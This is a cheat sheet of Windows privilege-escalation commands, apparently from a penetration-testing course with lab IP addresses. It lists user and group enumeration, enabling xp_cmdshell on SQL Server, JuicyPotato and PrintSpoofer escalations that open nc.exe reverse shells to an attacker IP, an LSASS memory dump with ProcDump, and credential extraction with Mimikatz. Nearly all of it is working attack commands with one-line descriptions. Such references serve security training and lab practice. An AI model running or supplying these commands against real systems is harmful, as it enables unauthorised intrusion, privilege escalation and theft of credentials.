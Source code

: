 `net user`

> Get all system users

`net localgroup`

> Get all system groups

`net localgroup administrators`

> View details about a group

`net accounts`

> Get passsword policy

`netstat -ano`

> Display active network connections

`pipelist.exe /accepteula`

> List named pipes

`gci \\.\pipe\`

> List named pipes with PowerShell

`accesschk.exe /accepteula \\.\Pipe\lsass -v`

> Review permissions on a named pipe

`mssqlclient.py sql_dev@10.129.43.30 -windows-auth`

> Connect using mssqlclient.py

`enable_xp_cmdshell`

> Enable xp_cmdshell with mssqlclient.py

`xp_cmdshell whoami`

> Run OS commands with xp_cmdshell

`c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 443 -e cmd.exe" -t *`

> Escalate privileges with JuicyPotato

`c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"`

> Escalating privileges with PrintSpoofer

`procdump.exe -accepteula -ma lsass.exe lsass.dmp`

> Take memory dump with ProcDump

`sekurlsa::minidump lsass.dmp` and `sekurlsa::logonpasswords`

> Use MimiKatz to extract credentials from LSASS memory dump

`dir /q C:\backups\wwwroot\web.config`

> Checking ownership of a file

